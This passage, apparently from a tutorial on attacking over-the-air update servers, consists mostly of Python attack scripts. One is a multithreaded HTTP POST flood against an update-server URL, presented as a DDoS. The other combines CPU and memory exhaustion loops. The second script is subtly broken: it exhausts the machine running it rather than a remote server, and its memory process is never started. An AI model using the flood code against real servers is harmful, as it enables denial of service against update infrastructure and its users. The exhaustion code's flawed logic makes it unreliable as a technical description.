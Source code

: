 DDoS attacks leverage multiple compromised systems to flood the OTA update servers simultaneously, making it challenging to defend against due to the distributed nature of the attack.

```python
import threading
import requests

def send_flood_requests(server_url, num_requests):
    def send_request():
        try:
            response = requests.post(server_url, json={"update": "OTA_Update_v2.1.0"})
            print(f"Response: {response.status_code}")
        except Exception as e:
            print(f"Request failed: {e}")

    threads = []
    for _ in range(num_requests):
        thread = threading.Thread(target=send_request)
        threads.append(thread)
        thread.start()

    for thread in threads:
        thread.join()

# Example usage
# send_flood_requests('https://update.server.com/ota/update', 1000)
```

**Explanation:**
This script simulates a DDoS attack by spawning multiple threads, each sending a request to the OTA update server. In a real-world scenario, attackers would use a botnet to perform such attacks from various sources.

### 3. **Resource Exhaustion Attacks**

Attackers target specific resources, such as CPU or memory, to degrade the performance of OTA update servers, making them unresponsive to legitimate requests.

```python
import multiprocessing
import time

def cpu_intensive_task():
    while True:
        # Perform complex calculations to consume CPU resources
        sum([i**2 for i in range(10000)])

def memory_exhaustion_task():
    data = []
    try:
        while True:
            # Continuously allocate memory
            data.append(' ' * 10**6)  # Allocate 1MB repeatedly
            time.sleep(0.1)
    except MemoryError:
        print("Memory exhausted.")

# Example usage
if __name__ == "__main__":
    # Launch multiple CPU-intensive processes
    for _ in range(4):  # Number of processes depends on server's CPU cores
        p = multiprocessing.Process(target=cpu_intensive_task)
        p.start()

    # Launch memory exhaustion process
    p_mem = multiprocessing.Process(target=memory_exhaustion_task)
```